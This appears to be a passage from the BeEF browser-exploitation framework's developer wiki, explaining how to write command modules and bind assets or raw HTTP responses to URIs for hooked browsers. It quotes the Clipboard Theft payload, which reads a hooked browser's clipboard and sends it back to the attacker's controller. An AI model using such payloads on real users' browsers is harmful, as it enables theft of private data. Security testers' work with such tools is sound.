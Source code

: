 **@datastore** is a dictionary of information returned by the JavaScript payload

## Javascript Payload (command.js)

The last mandatory file is `command.js` which contains the JavaScript payload. The payload should be included in a function called by **beef.execute**. Except that you can do anything you want here.

The following command should be used to return information to the BeEF controller:
```erb
beef.net.send("<%= @command_url %>", <%= @command_id %>, "data");
```

The BeEF JavaScript API already includes a lot of interesting features and embedded jQuery (see [[here|Javascript-API]]). 

Here is an interesting example taken from the [Clipboard Theft](https://github.com/beefproject/beef/blob/master/modules/host/clipboard_theft/command.js) module:

```javascript
beef.execute(function() {
  if (clipboardData.getData("Text") !== null) {
    beef.net.send("<%= @command_url %>", <%= @command_id %>, "clipboard="+clipboardData.getData("Text"));
  } else {
    beef.net.send("<%= @command_url %>", <%= @command_id %>, "clipboard=clipboardData.getData is null or not supported.");
  }
});
```

## Other Useful Examples

### Bind an External Object to a Specified URI

You can bind an external object to a defined URI in order to use it from the hooked browser:

```ruby
class Your_module < BeEF::Core::Command
    def pre_send
        BeEF::Core::NetworkStack::Handlers::AssetHandler.instance.bind('/path/to/file','/uri','extension')
    end

    def post_execute
        BeEF::Core::NetworkStack::Handlers::AssetHandler.instance.unbind('/uri.extension')
    end 
end
```

### Bind a Raw HTTP Response to a Specified URI

You can bind a raw HTTP response (headers and body) to a defined URI in order to use it from the hooked browser:

```ruby
  def pre_send
    BeEF::Core::NetworkStack::Handlers::AssetHandler.instance.bind_raw('200', {'Content-Type'=>'text/html'}, 'hello world!', '/hello_world', -1)
  end
```
